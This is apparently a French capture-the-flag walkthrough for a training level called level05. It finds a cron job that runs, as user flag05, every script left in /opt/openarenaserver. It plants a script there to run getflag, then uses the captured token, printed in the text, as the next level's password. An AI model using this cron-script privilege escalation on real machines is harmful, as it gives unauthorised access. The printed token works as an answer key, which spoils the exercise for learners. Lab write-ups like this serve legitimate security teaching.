 ## 1. Rechercher dans les fichiers level05 dans le fichier

    find / -name level05 2>/dev/null

## 2. Ouvrir /var/mail/level05

    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

On a un cronjob qui execute /usr/sbin/openarenaserver

## 3. Ouvrir le fichier /usr/sbin/openarenaserver

    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done

On voit qu'il execute tous les fichiers bash dans /opt/openarenaserver/ puis les supprime.

## 4. Creer un ficher avec getflag dans /opt/openarenaserver/

    echo 'getflag > /tmp/token' > /opt/openarenaserver/script.sh

Avec redirection du resultat comme le fichier est supprime a la suite.

    cat /tmp/token
    Cela affiche: cat viuaaale9huek52boumoomioc

## 5. Connexion

su level06

    Mot de passe : viuaaale9huek52boumoomioc
